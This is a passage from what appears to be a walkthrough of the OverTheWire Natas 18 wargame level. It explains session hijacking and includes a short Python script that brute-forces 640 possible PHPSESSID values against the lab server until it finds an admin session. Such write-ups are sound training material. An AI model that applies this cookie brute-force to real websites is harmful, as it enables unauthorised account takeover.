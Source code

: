     print_credentials(); 
    } 
}
-- SNIP --
?>
{% endhighlight %}

We can tell from this we are issued a session and id after we login. Now basic session hijacking involves utilizing the session id that is stored in our cookie and modifying it to that of another one. Allowing us to assume the session. 

The next bit of useful information is the fact that our session id is limited to 640 possible id's. So in theory if there was a current active admin session we could bruteforce the id.

The source tells us that if we are an admin we will see the following string "You are an admin.". So we can search the responses we get for this string and if we get it we know we have found the correct id. So let’s write up some quick python to do it for us.

{% highlight bash %}
import time
import requests
from requests.auth import HTTPBasicAuth

for x in range(640):
    print "Trying: " + str(x)
    r = requests.get("http://natas18.natas.labs.overthewire.org/", 
auth=HTTPBasicAuth('natas18', 'natas18pass'), 
cookies={"PHPSESSID":str(x)})
    if "You are an admin." in r.text:
        print "FOUND: " + str(x)
        break
        
{% endhighlight %}

After it runs we are given the value of 46. We then edit our cookie.

![Embeded](/images/natas/screen7.png)
[FullSize](/images/natas/screen7.png)
